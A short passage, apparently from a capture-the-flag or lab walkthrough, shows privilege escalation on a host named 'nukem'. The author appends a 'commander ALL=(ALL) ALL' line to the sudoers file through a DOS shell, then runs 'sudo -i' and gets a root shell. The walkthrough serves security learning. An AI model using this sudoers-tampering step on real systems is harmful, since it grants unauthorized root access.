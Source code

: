 This confirms that we can read high-privileged files with DOS. We also discover that SUDO is present on the system. Let's add the _commander_ user to sudo and give our account full privileges.

```
C:\> dir sudoers
Directory of C:\
SUDOERS    3,176   30-09-2020  14:00

C:\> echo commander ALL=(ALL) ALL >> sudoers
```

Now, in our SSH session, we can use sudo to escalate to root.

```
[commander@nukem ~]$ sudo -i
[sudo] password for commander:

[root@nukem ~]# whoami
root
```